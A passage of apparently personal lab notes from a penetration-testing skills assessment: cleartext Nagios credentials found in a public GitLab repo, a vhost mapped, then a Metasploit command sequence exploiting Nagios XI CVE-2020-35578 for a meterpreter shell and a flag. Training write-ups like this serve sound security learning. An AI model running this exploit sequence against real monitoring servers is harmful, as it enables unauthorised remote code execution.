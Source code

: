   * Other than this, we also have a GitLab instance on port 8180 - we can create a new account and search for clues

  * On Gitlab, navigating to '/explore', we have a couple of public projects by Administrator - 'Virtualhost' and 'Nagios Postgresql'

  * The 'Nagios Postgresql' repo contains cleartext creds 'nagiosadmin:oilaKglm7M09@CPL&^lC' in the 'INSTALL' file

  * The README from the 'Virtualhost' project shows it is used to create new vhosts in the local environment - so we can search for any VHOSTs from the code or commits

  * The README mentions a FQDN 'monitoring.inlanefreight.local'; this was added in a recent commit as well so we can try mapping it to the IP in ```/etc/hosts```

  * On this VHOST, we have an instance of Nagios, an IT monitoring tool; we can use the creds found earlier on the login page and it works

  * The dashboard shows it is running 'Nagios XI 5.7.5' - searching for exploits gives us [Nagios XI 5.7.x authenticated RCE CVE-2020-35578](https://www.exploit-db.com/exploits/49422):

    ```sh
    msfconsole -q

    search cve-2020-35578

    use 0
    # exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce

    options

    set PASSWORD oilaKglm7M09@CPL&^lC

    set LHOST 10.10.116.16

    set RHOSTS 10.129.201.90

    set TARGETURI /

    set VHOST monitoring.inlanefreight.local

    run

    # this gives us a meterpreter shell
    
    shell
    # drop into a shell

    ls -la
    # we have a flag here
    ```

* Skills Assessment III:
